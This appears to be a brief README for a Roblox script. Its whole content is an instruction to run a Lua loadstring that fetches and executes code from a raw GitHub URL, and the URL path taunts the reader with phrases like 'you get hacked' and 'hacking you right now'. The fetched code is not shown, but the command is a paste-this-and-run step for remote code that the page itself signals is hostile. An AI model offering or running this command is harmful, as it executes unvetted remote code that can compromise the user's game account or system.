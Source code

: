 #  USE THIS LOAD STRING

### **loadstring(game:HttpGet("https://raw.githubusercontent.com/Bluntman420n/sajqwyiuehdnauysgdvbtgaysgvdhjgbjkyougethacked101asjdujaksbdhjabshdbhjhackingyourightnowjhduashjgdja/main/FUCKYOUCUNT.BLUNT", true))()**
